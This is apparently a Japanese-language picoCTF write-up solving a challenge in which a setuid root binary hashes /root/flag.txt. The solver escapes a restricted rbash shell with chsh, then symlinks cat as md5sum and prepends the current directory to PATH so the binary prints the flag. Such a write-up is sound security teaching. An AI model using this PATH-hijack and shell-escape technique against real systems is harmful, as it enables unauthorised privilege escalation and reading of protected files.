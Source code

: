 # heap_only_2:bynary Medium  
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!  

Additional details will be available after launching your challenge instance.  

# Solution  
ssh接続する  
・とりあえず、権限や動作の結果を確認  
ctf-player@pico-chall$ ls -l  
total 0  
ctf-player@pico-chall$ echo $PATH  
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin  
ctf-player@pico-chall$ type flaghasher  
flaghasher is /usr/local/bin/flaghasher  
ctf-player@pico-chall$ flaghasher  
Computing the MD5 hash of /root/flag.txt....   
4268c8737000b13184189a06b5054d72  /root/flag.txt  

・md5sumの改ざんを試みるが失敗  
ctf-player@pico-chall$ ls -l /usr/local/bin/flaghasher  
-rwsr-xr-x 1 root root 18312 Mar  6 19:42 /usr/local/bin/flaghasher  
ctf-player@pico-chall$ ln -s /usr/bin/cat md5sum  
ctf-player@pico-chall$ export PATH=".:$PATH"  
-rbash: PATH: readonly variable  

・shellのrbashをbashに変更  
ctf-player@pico-chall$ chsh -s /usr/bin/bash ctf-player  
Password:   
ctf-player@pico-chall$ echo $SHELL  
/bin/rbash  
ctf-player@pico-chall$ logout  

・shellの変更ができたので改ざんし、フラグを獲得  
ctf-player@pico-chall$ echo $SHELL  
/usr/bin/bash  
ctf-player@pico-chall$ ln -s /usr/bin/cat md5sum  
ctf-player@pico-chall$ export PATH=".:$PATH"  
ctf-player@pico-chall$ flaghasher  
Computing the MD5 hash of /root/flag.txt....   

picoCTF{...}  

# 基礎知識  
bash:LinuxやmacOSなどのUnix系OSで使われる代表的なシェル  
rbash:bashに制限を加えた制限付きシェル　主にユーザーの操作範囲を制限する  
コマンド  
chsh:  ログインシェル（デフォルトのシェル）を変更する
例：chsh　−S　[新しいシェルのパス] [ユーザー名]   
logout:  ログインシェルを終了する  

# 考えたこと    
権限と動作結果を調査  
heap_only_1と同様書き込み権限があったので、md5sumの改ざんを行う  
改ざんは成功したが、PATHが変更できなかった  
なので、rbashをbashへの改ざんを狙う  
成功した後、ログアウトして再ログインするとシェルが変わってたのでheap_only_1と同様の手順で改ざんする  
flaghasherを実行するとフラグが獲得できた  